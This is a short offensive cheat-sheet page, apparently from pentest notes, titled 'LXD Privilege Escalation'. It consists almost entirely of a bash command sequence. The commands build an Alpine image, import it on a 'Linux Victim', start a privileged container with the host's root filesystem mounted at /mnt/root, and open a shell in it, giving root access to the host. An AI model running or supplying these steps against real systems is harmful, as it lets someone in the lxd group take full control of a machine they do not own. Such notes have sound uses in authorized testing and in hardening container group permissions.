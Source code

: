 # Containers

### LXD Privilege Escalation

```bash
#Download on your Kali Machine
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

#Send the .tar.gz created on Kali to Linux Victim & use this commands
lxc image import ./yourfilename.tar.gz --alias myimage
lxc image list (this should show you your image got loaded)
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

{% embed url="https://github.com/saghul/lxd-alpine-builder.git" %}
LXD Alpine Linux image builder
{% endembed %}

